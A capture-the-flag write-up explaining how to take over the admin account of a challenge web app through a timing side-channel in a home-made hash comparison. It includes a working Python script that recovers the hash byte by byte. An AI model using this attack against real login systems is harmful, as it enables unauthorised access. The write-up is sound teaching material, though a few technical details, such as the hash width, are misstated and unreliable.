 # Clock Fixing Sawyer

We are given a web app where we are tasked with logging in to the administrator account `admin`.

The password of the account is randomly generated at startup with a cryptographically secure random number generator (`secrets` module in Python),

```python
ADMIN_PASS = password_hash(secrets.token_urlsafe())
```

and the password is hashed using a shady home-made method

```python
def password_hash(pw):
    # Use python's inbuilt hash function for efficiency and other nice
    # properties
    return (hash(pw)).to_bytes(8, 'big', signed=True)[1:]
```

that essentially uses the built-in python `hash` function, which returns a 32
bit integer (8 byte), and uses the last 7 bytes from that result (big endian).

When logging in, the username and password is received as JSON

```python
@app.route('/api/login', methods=['POST'])
def api_login():
    data = request.get_json() or {}
    username = data.get('username')
    password = data.get('password')

    if not (username and password):
        return {'error': 'Username or password missing', 'success': False}, 400

    if username != 'admin':
        return {'error': 'Unknown user', 'success': False}, 400

    if secure_hash_comparison(ADMIN_PASS, password_hash(password)):
        resp = make_response({'success': True})
        sess = secrets.token_urlsafe()
        resp.set_cookie(SESSION_COOKIE_NAME, sess)
        SESSIONS[sess] = {'username': 'admin'}
        return resp

    return {'error': 'Incorrect password', 'success': False}, 400
```

and the provided password is compared to `ADMIN_PASS` using the "secure" hash comparison

```python
PIN_ORDER = list(range(7))
sr = secrets.SystemRandom()
sr.shuffle(PIN_ORDER)

...

def secure_hash_comparison(h1, h2):
    '''
    Securely compares two byte hashes, h1 and h2.

    The comparison is done in a random order. If mismatch is found, random
    sleep is introduced. These two factors should mitigate against side-channel
    attacks and brute force attacks.
    '''
    for index in PIN_ORDER:
        if h1[index] != h2[index]:
            time.sleep(math.ceil(h2[index] / 150) / 10)
            return False
    return True
```

The secure hash comparison is performed as follows.

* On startup, a random order for the 7 bytes is chosen and stored in `PIN_ORDER`
* When a user provided hash is received for comparison
    * We walk through the bytes of the hash in the order of indices dictated by `PIN_ORDER`
    * We compare byte value at index
        * If it is correct, we continue
        * If it's not, we sleep for an amount of time determined by the second hash parameter, which happens to be the user supplied hash in our case.
        * Note
            * If the wrong hash value is 0, we sleep 0 seconds
            * If the wrong hash value is less than or equal to 150, we sleep for 0.1 seconds
            * If the wrong hash value is greater than 150, we sleep for 0.2 seconds

It looks like we might possibly be able to use some sort of attack on the secure hash comparison, but we must first determine how we can consistently control the hashed value of our provided password.

The built-in Python `hash` function is essentially random for strings in the sense that it is difficult to find a *preimage* of a hash (i.e., given a hash, finding a string that that has that hash value). However, finding a preimage of an integer for the `hash` function is trivial, since `hash(n) == n` for all 32 bit signed integers `n`. And, since the password is parsed as JSON, we can supply an integer instead of a string to the login endpoint.

Now that we can control the hash value, we must consider what type of attack we can perform. A brute-force attack is not feasible, since it would require testing 256^7 possible hashes. However, since the secure hash comparison involves sleep that is dependent on user input, we can utilize a side-channel attack.

The first thing we must determine is the `PIN_ORDER`, i.e., the order in which hash indices are compared. We note that if the hash contains only 0 bytes, the password comparison will (almost certainly) fail, but no sleep will occur. Therefore, if we construct an integer that has a 0 byte in all positions except the first and send that as a password, we will get one of two outcomes: either the response is instant, indicating that the first position is not first in `PIN_ORDER`; or the response is delayed, indicating that the first position is first in `PIN_ORDER`. We can then send an integer with 0 in all byte positions, except the second, third, etc. The slowest response will then reveal which position is first in `PIN_ORDER`.

Now we have determined a method for finding the first position in `PIN_ORDER`. Let's assume we have determined that the first index in `PIN_ORDER` is *k*. Now, we can brute force the value of the *k*-th byte, by sending an integer consisting of 0 in all byte positions, except the *k*-th, and incrementing the *k*-th byte from 1 to 255. The fastest response will reveal the byte in position *k* (if all responses are "slow", then it is possible that the byte value at index *k* is 0, but this case is very unlikely).

Now that we have determined the first correct byte, according to `PIN_ORDER`, we can use the same method as before to find the next index in `PIN_ORDER` by constructing an integer with 0 in all positions, except the *k*-th, where we place the correct byte. We then, in turn, replace each 0 with a 1 and attempt a login with that integer. The slowest of those responses, reveals the next index in `PIN_ORDER`. We can then repeat the process of incrementing just that byte from 1 to 255 and finding the fastest response, thus determining the next correct byte according to `PIN_ORDER`. This process can than be repeated until we have brute-forced each byte individually, which should take at most ~2000 (7*255) requests (but on average, much less than that).

```python
HASH = 7 * [0]
PICKED = 7 * [False]

url = 'https://cfs.ggc.tf/api/login'

def find_binding():
    for i in range(7):
        if PICKED[i]:
            continue

        test = HASH[:i] + [0xFF] + HASH[i+1:]
        pw = int.from_bytes(test, 'big')
        resp = requests.post(url, json={'username': 'admin', 'password': pw})
        print(resp.elapsed.microseconds)
        if resp.elapsed.microseconds > 350000:
            return i

def pick(i):
    for b in range(1, 256):
        test = HASH[:i] + [b] + HASH[i+1:]
        pw = int.from_bytes(test, 'big')
        resp = requests.post(url, json={'username': 'admin', 'password': pw})
        print(resp.elapsed.microseconds)
        if resp.elapsed.microseconds < 350001:
            print('Response in', resp.elapsed.microseconds)
            HASH[i] = b
            print(f'Click out of {i} at {b}')
            break
    else:
        print('Giving up, assuming pin is set at 0')
        HASH[i] = 0

    PICKED[i] = True



for _ in range(7):
    b = find_binding()
    print(b, 'is binding')
    pick(b)
    print(HASH)
    print(PICKED)

pw = int.from_bytes(HASH, 'big')
print('Password is', pw)
session = requests.Session()
session.post(url, json={'username': 'admin', 'password': pw})
resp = session.get(root_url)
```

This challenge was designed to mimic the method of single pin picking a physical pin tumbler lock (the challenge name is a nod to the YouTuber lock picking lawyer). Single pin picking involves applying rotational force to the lock cylinder and pushing the pins of the lock upwards, until a pin is found that is "binding" (i.e., rubbing up against the housing). That key pin is then pushed up to the shear line, in which case it is considered picked. After that, another pin should be binding. The process in the repeated to determine the position of that pin and it is then pushed up to shear line. The process is repeated for all remaining pins in the lock.

